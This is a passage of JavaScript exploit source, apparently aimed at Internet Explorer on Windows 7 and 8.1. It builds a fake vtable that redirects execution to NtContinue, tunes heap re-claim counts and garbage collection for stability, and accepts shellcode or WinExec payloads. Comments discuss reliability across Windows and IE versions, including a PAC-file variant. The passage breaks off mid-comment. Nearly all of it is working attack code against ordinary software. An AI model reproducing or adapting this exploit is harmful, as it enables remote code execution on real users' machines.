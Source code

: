     function CreateFakeVtable(NtContinueAddress) {
        var FakeVtable = "";
        var Padding = [];

        for (var i = 0; i < (0x138 / 4); i++) {
            Padding[i] = 0x11111111;
        }

        FakeVtable += DwordArrayToBytes(Padding);
        FakeVtable += DwordArrayToBytes([NtContinueAddress.low]);
        FakeVtable += DwordArrayToBytes([NtContinueAddress.high]);

        for (var i = (0x140 / 4); i < (0x400 / 4); i++) {
            Padding[i] = 0x22222222;
        }

        FakeVtable += DwordArrayToBytes(Padding);
        return FakeVtable;
    }

    var LFHBlocks = new Array(); // If this is local rather than global the exploit does not work on Windows 8.1 IE11 64-bit

    function Exploit() {
        if(PayloadType != "shellcode" && PayloadType != "winexec") {
            DebugLog("Fatal error: invalid payload type");
            return 0;
        }

        // Initialization: these anchor re-claim counts have varying affects on exploit stability. The higher the anchor count, the more stable, but the more time the exploit will take.

        if(WindowsVersion <= 7) {
            ReClaimNameList = ReClaimIndexNameList;
            NameListAnchorCount = 5000; // 20000 was needed prior to using GC at the start of the exploit. Performance went from around 4 seconds to 700ms when moved to 400. 5000 was the sweet spot on Win7 IE8 64-bit between speed and stability.
        }
        else {
            ReClaimNameList = ReClaimBackupNameLists;

            if(PacFile) {
                NameListAnchorCount = 10000;
            }
            else {
                NameListAnchorCount = 400; // The larger this number the more reliable the exploit on Windows 8.1 where LFH cannot easily re-claim
            }
        }

        CollectGarbage(); // This GC is essential for re-claims with randomized LFH on precise regions (such as VVAL re-claim), but it also allows for the GcBlock re-claim count to be drastically reduced (otherwise 20000+ was needed, as in the original exploit)

        // Trigger LFH for a size of 0x970
